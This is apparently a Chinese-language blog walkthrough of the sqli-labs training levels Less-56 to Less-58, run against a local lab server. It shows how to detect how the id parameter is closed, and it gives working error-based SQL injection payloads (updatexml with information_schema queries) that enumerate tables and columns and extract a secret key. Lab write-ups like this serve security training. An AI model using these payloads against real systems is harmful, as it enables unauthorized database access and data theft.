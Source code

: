 那么剩下的步骤就和上一关一样了。

## ***Less-56:Challenge-3***

也是14次机会。

加单引号`http://192.168.2.222/sqli-labs-master/Less-56/?id=1'`回显正常，双引号回显异常。

`http://192.168.2.222/sqli-labs-master/Less-56/?id=1' --+`任然回显异常，说明包裹参数的不只是单引号

加个括号`http://192.168.2.222/sqli-labs-master/Less-56/?id=1')  --+`回显正常说明闭合方式为单引号加括号。

剩下的步骤和前面关卡就一样了。

## ***Less-57:Challenge-4***

仍为14次。

单引号回显正常，双引号回显异常`http://192.168.2.222/sqli-labs-master/Less-57/?id=1"`

`http://192.168.2.222/sqli-labs-master/Less-57/?id=1" --+`回显异常，说明闭合方式为双引号。

其余步骤就和前面一样了。

## ***Less-58:Challenge-5***

太可怜了，只有5次机会。

单引号报错，得到单引号闭合。

![U99jLn.png](https://s1.ax1x.com/2020/07/05/U99jLn.png)

发现不管如何都只会回显一个固定的用户名和密码。`http://192.168.2.222/sqli-labs-master/Less-58/?id=-1' union select 1,2,3 --+`

上面不是报错了吗。重置次数用报错注入吧...

先单引号引发报错算一次。

`http://192.168.2.222/sqli-labs-master/Less-58/?id=-1' and updatexml(1,concat(0x5e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5e),1)--+`

![U9C1QH.png](https://s1.ax1x.com/2020/07/05/U9C1QH.png)

`http://192.168.2.222/sqli-labs-master/Less-58/?id=-1' and updatexml(1,concat(0x5e,(select group_concat(column_name) from information_schema.columns where table_name='B9KA6S9STN'),0x5e),1)--+`

![U9CaY8.png](https://s1.ax1x.com/2020/07/05/U9CaY8.png)

`http://192.168.2.222/sqli-labs-master/Less-58/?id=-1' and updatexml(1,concat(0x5e,(select secret_XYKB from B9KA6S9STN),0x5e),1)--+`

![U9C6wq.png](https://s1.ax1x.com/2020/07/05/U9C6wq.png)

最后一步，提交即可。嘿嘿....

## ***Less-59:Challenge-6***
